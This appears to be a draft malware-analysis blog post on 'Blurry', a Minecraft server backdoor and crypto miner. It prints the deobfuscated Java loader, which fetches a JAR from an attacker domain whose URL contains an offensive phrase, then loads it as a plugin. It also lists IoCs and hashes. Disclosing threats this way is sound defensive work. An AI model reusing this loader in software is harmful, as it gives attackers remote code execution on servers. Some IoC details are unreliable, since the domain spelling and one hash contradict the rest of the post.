 ```yaml
---
title: Blurry Spigot Backdoor
author: xyzeva
pubDatetime: 2023-07-20T13:50:10.627Z
postSlug: blurry-backdoor
featured: false
draft: true
tags:
  - threat
description: A new minecraft server backdoor and crypto minder.
---
```


MMPA members noticed some malicious activity going on their own personal servers, when given samples to investigate, MMPA uncovered the malware family "Blurry".

## What we know so far

Blurry is a multi-stage backdoor that is capable of completely taking over minecraft servers, crypto mining, and DDoSing.

Blurry works in 2 stagers, one being pulling for a domain, a JAR mainly named `BukkitScheduler.jar` and loading it into spigot, the loader is heavily obfuscated, but when cleaned up, it looks something like this:
```java
PluginManager pluginManager = Bukkit.getPluginManager();
if(pluginManager.getPlugin("BukkitScheduler") != null) return; 
URL url = new URL("https://i-really-love-cute-little-boys.fluyd.dev/aids/1ii1i1i11i1i1i1ii1i1iii1i11i1i1i1i1i1i1i1i1i1i1i1i1i1");
File file = new File("./plugins/BukkitScheduler.jar");
Files.copy(url.openStream(), file.toPath(), StandardCopyOption.REPLACE_EXISTING);
Plugin plugin = pluginManager.loadPlugin(file);
plugin.onLoad();
pluginManager.enablePlugin(plugin);
```

The malware has been seen to DDoS LGBT related minecraft servers. From what we can see, this is currently a minor threat, as it hasn't spread yet. But it should still be a good idea to check your servers.

## IoCs

- xmrig in minecraft server directory (`find | grep xmrig`)
- *.flud[.]dev

### Hashes
All hashes are provided as SHA-256.

#### Loaders
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `SoaromaSAC-1.0.65.jar` (Found on Bukkit, the actual plugin isnt affected.)
- `ffc965299059c29c4a806658215f99b5160d58b283befc7d3ac33b43c30cffeb` - Cracked Vulcan (`Vulcan-2.7.3.jar`)
- `1a9a698c6d9011727d1f4ace52bcf7630361765602cf729fc8bccc3774ce7ad2` - Fake copy of Open Source Project (`BedrockPlayerManager-1.4.jar`)

#### Payload
- `94e5218687c00baa61ea7a5348365fc4e0820b3cb81f16ff01972eaa231d6320` - `BukkitScheduler.jar`
- `8977470e0a766dc2deee2320eafeefa1f15d9adcc93f749418c362ee8ed4b858` - XMRig config (`config.json`)